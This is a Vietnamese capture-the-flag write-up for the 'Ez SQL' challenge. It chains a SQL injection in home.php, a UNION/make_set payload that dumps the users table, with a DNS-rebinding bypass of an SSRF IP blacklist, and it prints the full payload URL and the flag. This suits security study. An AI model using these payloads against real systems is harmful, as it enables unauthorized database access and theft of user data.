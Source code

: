# Ez SQL

Bài này là một chall sử dụng SSRF và SQLi khá hay nên mình note lại để học tập :Đ

## SQLi

SQLi nằm ở `home.php`, và ở đây có 1 đoạn check ip:

```php
if ($_SERVER['REMOTE_ADDR'] !== "127.0.0.1") {
  die("<center>This is not a private ip</center>");
}
```

Mình tải source về build lại, xoá đoạn check phía trên đi và thực hiện SQLi trước. Đây là payload:

```sql
1 union select 1,make_set(1|4,`2`,`3`,`4`)from(select 1,2,3,4 union select * from users)a
```

Do không tìm được tên cột nên mình sử dụng `select 1,2,3,4 union select * from users` để tạo table mới từ table `users` với các cột có tên là `1`, `2`, `3` và `4` sau đó dùng `make_set` để ghép cột 1 và cột 3 lại với nhau thành một cột duy nhất.

Phần SQLi đã xong, việc còn lại cần làm là bypass SSRF.

![200](images/200.jpg)

## SSFR

SSRF nằm ở `index.php` và ở đây cũng có 1 đoạn check ip:

```php
function filter($url) {
	$black_lists = ['127.0.0.1', '0.0.0.0'];
	$url_parse = parse_url($url);
	$ip = gethostbyname($url_parse['host']);
    if (in_array($ip,$black_lists)) {
        return false;
    }
	return true;
}
```

Nếu url mình nhập vào có ip mà khác `127.0.0.1` và `0.0.0.0` thì `curl` sẽ được thực hiện. Lúc này mình cần một url có ip khác `127.0.0.1` để `curl` được thực hiện, nhưng để SQLi được thì url lại phải có `REMOTE_ADDR` hay ip = `127.0.0.1` ???

Ý tưởng của mình là sử dụng DNS Rebinding, tạo 1 url mà khi query đến nó sẽ ngẫu nhiên trỏ đến `127.0.0.1` hoặc một ip nào đó. Ở đây mình dùng [requestrepo.com](https://requestrepo.com) và config như sau:

![requestrepo_config](images/requestrepo_config.png)

Mình config dùng dấu `%` như trên thì url sẽ trỏ ngẫu nhiên ra một trong hai ip mình chỉ định, mà mình cần lần đầu tiên khi check `index.php` thì ip sẽ là `1.2.3.4` và lần sau tại `home.php` thì ip sẽ là `127.0.0.1`. Do đó cần request nhiều lần để thấy được flag.

Payload:

```url
http://meo.tg3xz1mm.requestrepo.com/home.php?id=1%20union%20select%201,make_set(1%7C4,%602%60,%603%60,%604%60)from(select%201,2,3,4%20union%20select%20*%20from%20users)a
```

Flag: `ISITDTU{w0w_SSRF_ch4in_SQLI_3Zzzz_h3he_!!!!}`

#

Đoạn payload `union select xxx` tuyệt vời trên mình có tham khảo của anh `taidh` <3
